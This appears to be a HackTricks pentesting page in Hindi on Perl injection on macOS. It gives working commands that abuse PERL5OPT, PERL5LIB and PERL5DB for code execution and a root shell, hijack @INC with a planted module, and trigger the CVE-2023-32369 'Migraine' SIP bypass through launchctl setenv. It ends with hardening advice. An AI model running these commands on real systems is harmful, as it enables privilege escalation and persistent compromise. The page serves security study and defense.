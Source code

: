 # macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Via `PERL5OPT` & `PERL5LIB` env variable

पर्यावरण चर **`PERL5OPT`** का उपयोग करके यह संभव है कि **Perl** जब इंटरप्रेटर शुरू होता है (यहां तक कि **पहली** पंक्ति को लक्षित स्क्रिप्ट के पार्स होने से पहले) मनमाने आदेशों को निष्पादित करे। उदाहरण के लिए, इस स्क्रिप्ट को बनाएं:
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
अब **env वेरिएबल को एक्सपोर्ट करें** और **perl** स्क्रिप्ट को निष्पादित करें:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
एक और विकल्प एक Perl मॉड्यूल बनाना है (जैसे कि `/tmp/pmod.pm`):
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
और फिर env वेरिएबल्स का उपयोग करें ताकि मॉड्यूल स्वचालित रूप से स्थित और लोड हो सके:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```
### अन्य दिलचस्प पर्यावरण चर

* **`PERL5DB`** – जब इंटरप्रेटर **`-d`** (डिबगर) ध्वज के साथ शुरू किया जाता है, तो `PERL5DB` की सामग्री डिबगर संदर्भ के *अंदर* Perl कोड के रूप में निष्पादित होती है। यदि आप एक विशेषाधिकार प्राप्त Perl प्रक्रिया के पर्यावरण **और** कमांड-लाइन ध्वजों को प्रभावित कर सकते हैं, तो आप कुछ इस तरह कर सकते हैं:

```bash
export PERL5DB='system("/bin/zsh")'
sudo perl -d /usr/bin/some_admin_script.pl   # स्क्रिप्ट निष्पादित करने से पहले एक शेल खोलेगा
```

* **`PERL5SHELL`** – Windows पर यह चर नियंत्रित करता है कि Perl किस शेल निष्पादन योग्य का उपयोग करेगा जब उसे एक शेल उत्पन्न करने की आवश्यकता होती है। इसे यहाँ केवल पूर्णता के लिए उल्लेखित किया गया है, क्योंकि यह macOS पर प्रासंगिक नहीं है।

हालांकि `PERL5DB` को `-d` स्विच की आवश्यकता होती है, यह सामान्य है कि ऐसे रखरखाव या इंस्टॉलर स्क्रिप्ट मिलें जो *root* के रूप में इस ध्वज के साथ निष्पादित होती हैं, जिससे यह चर एक मान्य वृद्धि वेक्टर बन जाता है।

## निर्भरताओं के माध्यम से (@INC दुरुपयोग)

यह संभव है कि Perl द्वारा खोजे जाने वाले शामिल पथ को सूचीबद्ध किया जाए (**`@INC`**) चलाकर:
```bash
perl -e 'print join("\n", @INC)'
```
macOS 13/14 पर सामान्य आउटपुट इस प्रकार दिखता है:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
कुछ लौटाए गए फ़ोल्डर वास्तव में मौजूद नहीं हैं, हालाँकि **`/Library/Perl/5.30`** मौजूद है, *SIP* द्वारा *संरक्षित* नहीं है और *SIP-संरक्षित* फ़ोल्डरों से *पहले* है। इसलिए, यदि आप *root* के रूप में लिख सकते हैं, तो आप एक दुर्भावनापूर्ण मॉड्यूल (जैसे `File/Basename.pm`) छोड़ सकते हैं जिसे कोई भी विशेषाधिकार प्राप्त स्क्रिप्ट उस मॉड्यूल को आयात करते समय *प्राथमिकता* से लोड करेगी।

> [!WARNING]
> आपको `/Library/Perl` के अंदर लिखने के लिए अभी भी **root** की आवश्यकता है और macOS एक **TCC** प्रॉम्प्ट दिखाएगा जो लिखने के ऑपरेशन को करने वाली प्रक्रिया के लिए *पूर्ण डिस्क एक्सेस* मांगता है।

उदाहरण के लिए, यदि एक स्क्रिप्ट **`use File::Basename;`** आयात कर रही है, तो यह संभव होगा कि `/Library/Perl/5.30/File/Basename.pm` बनाया जाए जिसमें हमलावर-नियंत्रित कोड हो।

## SIP बायपास माइग्रेशन सहायक के माध्यम से (CVE-2023-32369 “Migraine”)

मई 2023 में Microsoft ने **CVE-2023-32369** का खुलासा किया, जिसे **Migraine** उपनाम दिया गया, एक पोस्ट-एक्सप्लॉइटेशन तकनीक जो *root* हमलावर को पूरी तरह से **सिस्टम इंटीग्रिटी प्रोटेक्शन (SIP)** को **बायपास** करने की अनुमति देती है। कमजोर घटक **`systemmigrationd`** है, जो **`com.apple.rootless.install.heritable`** के साथ एक डेमन है। इस डेमन द्वारा उत्पन्न कोई भी चाइल्ड प्रोसेस इस अधिकार को विरासत में लेता है और इसलिए **SIP** प्रतिबंधों के *बाहर* चलता है।

शोधकर्ताओं द्वारा पहचाने गए बच्चों में Apple-हस्ताक्षरित इंटरप्रेटर है:
```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```
क्योंकि Perl `PERL5OPT` का सम्मान करता है (और Bash `BASH_ENV` का सम्मान करता है), डेमन के *पर्यावरण* को विषाक्त करना SIP-रहित संदर्भ में मनमाने निष्पादन प्राप्त करने के लिए पर्याप्त है:
```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```
जब `migrateLocalKDC` चलता है, तो `/usr/bin/perl` दुर्भावनापूर्ण `PERL5OPT` के साथ शुरू होता है और `/private/tmp/migraine.sh` को *SIP फिर से सक्षम होने से पहले* निष्पादित करता है। उस स्क्रिप्ट से, आप, उदाहरण के लिए, **`/System/Library/LaunchDaemons`** के अंदर एक पेलोड कॉपी कर सकते हैं या एक फ़ाइल को **अडिलेटेबल** बनाने के लिए `com.apple.rootless` विस्तारित विशेषता असाइन कर सकते हैं।

Apple ने macOS **Ventura 13.4**, **Monterey 12.6.6** और **Big Sur 11.7.7** में इस समस्या को ठीक किया, लेकिन पुराने या बिना पैच किए गए सिस्टम अभी भी शोषण योग्य हैं।

## हार्डनिंग सिफारिशें

1. **खतरनाक वेरिएबल्स को साफ करें** – विशेषाधिकार प्राप्त launchdaemons या cron jobs को एक स्वच्छ वातावरण के साथ शुरू होना चाहिए (`launchctl unsetenv PERL5OPT`, `env -i`, आदि)।
2. **रूट के रूप में इंटरप्रेटर्स चलाने से बचें** जब तक कि यह आवश्यक न हो। संकलित बाइनरी का उपयोग करें या जल्दी विशेषाधिकार छोड़ें।
3. **`-T` (टेंट मोड) के साथ विक्रेता स्क्रिप्ट** ताकि Perl `PERL5OPT` और अन्य असुरक्षित स्विचों को नजरअंदाज करे जब टेंट चेकिंग सक्षम हो।
4. **macOS को अद्यतित रखें** – “Migraine” वर्तमान रिलीज़ में पूरी तरह से पैच किया गया है।

## संदर्भ

- Microsoft Security Blog – “नई macOS भेद्यता, Migraine, सिस्टम इंटीग्रिटी प्रोटेक्शन को बायपास कर सकती है” (CVE-2023-32369), 30 मई 2023।
- Hackyboiz – “macOS SIP बायपास (PERL5OPT & BASH_ENV) अनुसंधान”, मई 2025।

{{#include ../../../banners/hacktricks-training.md}}
